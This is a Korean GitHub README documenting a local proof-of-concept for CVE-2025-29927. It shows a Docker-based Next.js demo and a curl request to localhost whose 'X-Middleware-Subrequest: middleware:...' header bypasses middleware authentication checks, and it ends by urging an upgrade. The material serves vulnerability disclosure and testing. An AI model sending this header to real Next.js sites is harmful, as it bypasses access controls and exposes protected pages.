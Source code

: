 # CVE-2025-29927

> [Github (@j93es)](https://github.com/j93es)

> [Blog](https://j93.es)

<br/>

## 요약

아래 Nextjs 버전에서 `x-middleware-subrequest`헤더에 특정 값을 추가하여 요청 시, middleware의 인증검사가 우회됩니다.

- \> 11.1.4 < 12.3.5
- \> 14.0 <14.2.25
- \> 15.0 <15.2.3
- \>= 13.0.0, < 13.5.9

<br/>

## PoC 구성

먼저 middleware에서 모든 요청을 403으로 반환합니다.

```ts
// ./src/middleware.ts
export function middleware() {
  return Response.json(
    { success: false, message: "Forbidden" },
    { status: 403 }
  );
}
```

더하여 Admin page를 구성하였습니다.

```ts
// ./src/app/page.tsx
export default function Home() {
  return <h1>Admin Home Page</h1>;
}
```

정상적인 경우라면 middleware의 인증 검사를 거침으로 403이 반환되어야 합니다.

<br/>

## 환경 구성 및 실행

```sh
# 이미지 빌드
make build

# 컨테이너 실행
make up

# 종료
make down

# 로그 보기
make logs

# 컨테이너 재시작
make restart

# 컨테이너 및 이미지 제거 가능
make clean

# 이미지 제거 후 재빌드
make rebuild
```

<br/>

## 결과

### 정상적인 요청

```sh
curl -v http://localhost:8001/
```

![normal](./assets/normal.png)

### 취약한 요청

```sh
curl -v http://localhost:8001/ -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
```

![normal](./assets/vuln.png)

수신된 html 요청의 전문은 `./assets/bypassed.html`에서 확인 가능합니다.

<br/>

## 정리

Nextjs 특정 버전에서 `x-middleware-subrequest`헤더에 특정 값을 추가하여 요청 시, middleware의 인증검사가 우회됩니다. 15.2.2에서는 `X-Middleware-Subrequest`에 `middleware:middleware:middleware:middleware:middleware`로 요청 시에 middleware의 인증검사가 우회됩니다. 따라서 최신 버전의 Nextjs로 업데이트해야합니다.
